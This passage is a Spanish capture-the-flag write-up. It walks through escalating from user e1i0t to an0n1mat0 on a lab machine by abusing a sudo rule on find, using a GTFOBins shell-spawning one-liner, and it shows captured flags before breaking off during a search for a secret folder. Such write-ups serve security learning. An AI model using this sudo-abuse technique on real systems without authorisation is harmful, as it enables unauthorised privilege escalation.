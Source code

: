 ```
d8109448593f23776d57bd512f322eff
```

## Escalate user an0n1mat0

Si hacemos `sudo -l` veremos lo siguiente.

```
Matching Defaults entries for e1i0t on 63ccda3ff003:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User e1i0t may run the following commands on 63ccda3ff003:
    (an0n1mat0 : an0n1mat0) NOPASSWD: /bin/find
```

Por lo que podemos ejecutar como el usuario `an0n1mat0` el binario `find`, con este binario hay una vulnerabilidad de permisos, si hacemos lo siguiente seremos el usuario `an0n1mat0`.

URL = https://gtfobins.github.io/gtfobins/find/#shell

```shell
sudo -u an0n1mat0 find . -exec /bin/sh \; -quit
```

Info:

```
$ whoami
an0n1mat0
```

Ejecutaremos `/bin/bash` para obtener una shell mejor y leeremos la flag de este usuario.

> user2.txt

```
11ab9a33cbd06b3325de00c7e32c0db8
```

## Escalate Privileges

Si hacemos `sudo -l` veremos que nos pedira contraseña, cosa que no tenemos, pero si investigamos mas, en la `home` del usuario `an0n1mat0` veremos que hay un archivo llamado `nota.txt` que contiene lo siguiente.

```
The boss told me that he will soon remove your privileges to be able to access your secret folder.
```

Nos da una pista de que hay una carpeta secreta por alguna parte del sistema, por lo que la buscaremos.

```shell
find / -name 'secret' 2>/dev/null
```

Info:
